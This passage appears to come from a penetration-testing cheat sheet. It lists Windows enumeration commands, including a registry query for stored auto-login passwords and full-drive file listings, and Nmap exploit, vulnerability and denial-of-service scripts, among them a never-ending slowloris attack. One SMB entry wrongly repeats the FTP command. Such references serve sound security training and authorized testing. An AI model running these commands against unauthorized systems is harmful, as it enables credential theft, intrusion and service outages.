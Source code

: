 - `Vulnerability Scanning with Nmap`
- What is running on the machine? If we are able to run WMIC we can pull rich details on the services and applications running:
  ```txt
  wmic service list full > services.txt
  wmic process > processes.txt
  ```
- Or alternatively: `tasklist > processes.txt`
- Has a Windows Auto-login Password been set?
      `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
- Dump a tree of all the folders / files on the HDD
      `tree c:\ > c:\users\public\folders.txt`
- Or for a list of files: `dir /s c:\ > c:\users\public\files.txt`
- Nmap Exploit Scripts
  [*https://nmap.org/nsedoc/categories/exploit.html*](https://nmap.org/nsedoc/categories/exploit.html)
- Nmap search through vulnerability scripts  
  ```
  cd /usr/share/nmap/scripts/  
  ls -l \*vuln\*
  ```

- Nmap search through Nmap Scripts for a specific keyword  
  `ls /usr/share/nmap/scripts/\* | grep ftp`
- Scan for vulnerable exploits with nmap  
  `nmap --script exploit -Pn $ip`
- NMap Auth Scripts  
  [*https://nmap.org/nsedoc/categories/auth.html*](https://nmap.org/nsedoc/categories/auth.html)
- Nmap Vuln Scanning  
  [*https://nmap.org/nsedoc/categories/vuln.html*](https://nmap.org/nsedoc/categories/vuln.html)
- NMap DOS Scanning  

  ```
  nmap --script dos -Pn $ip  
  NMap Execute DOS Attack  
  nmap --max-parallelism 750 -Pn --script http-slowloris --script-args
  http-slowloris.runforever=true
  ```
- Scan for coldfusion web vulnerabilities  
  `nmap -v -p 80 --script=http-vuln-cve2010-2861 $ip`
- Anonymous FTP dump with Nmap  
  `nmap -v -p 21 --script=ftp-anon.nse $ip-254`
- SMB Security mode scan with Nmap  
  `nmap -v -p 21 --script=ftp-anon.nse $ip-254`

#### Automated Windows Enumeration Scripts

We are also going to look a a few automated methods of performing Windows Enumeration including:

- WindownPrivEsc.exe
- Sherlock
- Watson
- JAWZ
- Seatbelt
